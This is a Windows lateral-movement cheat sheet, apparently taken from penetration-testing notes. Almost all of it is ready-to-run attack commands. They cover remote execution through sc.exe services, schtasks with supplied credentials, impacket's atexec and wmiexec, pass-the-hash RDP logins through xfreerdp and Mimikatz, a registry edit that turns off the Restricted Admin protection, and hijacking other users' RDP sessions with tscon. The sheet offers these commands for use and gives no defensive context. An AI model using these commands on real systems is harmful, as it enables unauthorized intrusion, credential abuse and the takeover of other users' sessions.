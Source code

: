 ### SC.exe
- Smbexec.py can be used to automate the process
```
sc.exe \\<TARGET> create SERVICE_NAME displayname=NAME binpath="COMMAND" start=demand
sc.exe \\<TARGET> start SERVICE_NAME
sc.exe \\<TARGET> delete SERVICE_NAME
```

### Schtasks.exe
```
schtasks /create /F /tn <TASKNAME> /tr COMMAND /sc once /st 23:00 /s <TARGET> /U <USER> /P <PASSWORD>
schtasks /run /F /tn <TASKNAME> /s <TARGET> /U <USER> /P <PASSWORD>
schtasks /delete /F /tn <TASKNAME> /s <TARGET>
```

### AT
```
reg.py
atexec.py
```

### WMI
```
wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET>
``` 

### PoisonHandler
- https://github.com/Mr-Un1k0d3r/PoisonHandler

### RDP
#### Pass the hash rdp xfreerdp
```
xfreerdp /u:<USER> /d:<DOMAIN> /pth:<NTLM HASH> /v:<TARGET>
```

#### Pass the hash RDP
```
Invoke-Mimikatz -Command "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm<NTLM HASH> /run:'mstsc.exe /restrictedadmin'"
```

- If the admin mode is disabled
```
Enter-PSSession -Computername <TARGET>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

#### Hijack RDP session
```
query user
sc.exe create rdphijack binpath="cmd.exe /c tscon <ID> /dest:<SESSION NAME>"
net start rdphijack
sc.exe delete rdphijack
```
